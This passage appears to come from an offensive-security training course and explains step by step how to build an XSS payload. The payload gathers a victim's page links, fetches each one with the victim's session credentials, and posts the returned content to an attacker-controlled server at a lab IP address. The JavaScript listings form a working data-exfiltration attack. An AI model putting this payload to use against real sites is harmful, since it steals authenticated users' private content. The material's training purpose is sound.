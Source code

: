 Next, we need to make sure that the array only contains unique values to reduce the traffic we are sending. The library we are currently exploiting for XSS, lodash, has a "unique" function that can handle this. To access this library, we will use the underscore (_) character.1 We'll pass the allHrefs array into the unique function and save the output into uniqueHrefs.

uniqueHrefs = _.unique(allHrefs)
Listing 35 - Obtaining only unique hrefs

Now that we have a list of all unique hrefs, we need to check if the href is a valid URL and remove any links that might log out the current user. In Listing 36, we first create a new array where we can store only the valid URLs. Next, we loop through the uniqueHrefs, run the href through a function(validURL) to check if the URL is valid and verify that it will not log out the target. The validURL function is not currently implemented and will be left as an exercise.

validUniqueHrefs = []
for(var i=0; i<uniqueHrefs.length; i++) {
    if (validURL(uniqueHrefs[i])){
        validUniqueHrefs.push(uniqueHrefs[i]);
    }
}
Listing 36 - Checking for valid URL

Next, we will send a GET request to each valid and unique href, encode the content, and send the content over to our API server. We will use the fetch method to make these requests.

The code block in Listing 37 will loop through each valid, unique href and GET the content. Since we don't want a user's browser to completely freeze during this operation, we'll run the request as an asynchronous task. The reason for using the fetch method is that will return a JavaScript promise.2 A promise handles asynchronous operations once they complete or fail. Instead of blocking the entire thread as the code executes, a function passed in to the promise will be executed once the operation is complete. This also allows us to tie multiple promises together to ensure one method only executes after another completes.

The promise returned by the fetch will be handled by .then and the response will be passed in as an argument to the function. The text from the response is obtained (which returns another promise) and passed into another .then function. Within the final .then function, the text is sent to our API server along with the source URL:

validUniqueHrefs.forEach(href =>{
    fetch(href, {
        "credentials": "include",
        "method": "GET",
    })
    .then((response) => {
      return response.text()
    })
    .then(function (text){
      fetch("https://192.168.119.120/content", {
        body: "url=" + encodeURIComponent(href) + "&content=" + encodeURIComponent(text),
        headers: {
          "Content-Type": "application/x-www-form-urlencoded"
        },
        method: "POST"
      })
    });
})
Listing 37 - Obtaining authenticated content
